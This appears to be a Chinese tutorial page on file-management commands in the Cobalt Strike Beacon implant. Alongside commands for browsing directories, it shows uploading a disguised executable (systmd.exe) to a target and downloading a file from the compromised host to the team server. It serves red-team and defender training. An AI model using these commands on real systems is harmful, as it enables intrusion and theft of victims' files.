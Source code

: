 # Cobalt Strike Beacon 基础文件管理

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/31.html](http://book.iwonder.run/Tools/Cobalt Strike/31.html)

```
pwd 

查看当前所在路径 
```

```
cd c:\windows\help\help 

切换到指定路径下 
```

```
ls 

查看当前目录下的所有文件和目录 
```

```
mkdir tmp 

在当前目录下新建一个名为 tmp 的目录 
```

```
rm tmp 

删除当前目录下的 tmp 目录,注意,删除指定目录时,不能有进程占用该目录,否则是删不掉的 
```

```
upload /home/klion/Desktop/systmd.exe 

上传 systmd.exe 到当前目录下,貌似只能上传单个文件,其实,平时也压根用不着一次性上传很多东西 
```

![image](img/13ed9a46b96df4e7f0435d87017ac275.png)

```
download c:\windows\temp\backup.zip

下载目标系统中指定路径下的指定文件,此处要特别注意,它并不是直接就下到你本地机器上的,而是先上传到团队服务器,之后需要我们再从团队服务器选中指定文件然后再同步到你本地的 
```

```
downloads

用于查看当前正在往本地同步的文件,没啥用 
```

![image](img/d16a9b277617a64f300d36c60c8903d0.png)

> 看到上面提示下载完成之后,点击菜单中的选中要同步的"view" -> "Download"然后再选中你要下载的文件,点击"Sync Files"

![image](img/d45d3cc725e7975e5c2ea6f54ce9f816.png)

> 指明你要保存到的本地路径,即可开始下载,全部下载完成后它依然会提示你,非常简单就不多废话了

![image](img/73db8ce75ff00262b9e254aad8929cc6.png)

```
drives 

列出当前系统中的所有盘符 
```

```
# cp c:\windows\temp\backup.zip c:\windows\help\help\res.zip

复制指定的文件到指定路径下,注意后面的目标路径务必要指定保存为的文件名 
```

```
# mv c:\windows\temp\backup.zip c:\windows\help\help\source.zip

移动指定的文件到指定路径下,注意后面的目标路径务必要指定保存为的文件名 
```

![image](img/650127bf67a186ab41d7e685d10a972f.png)

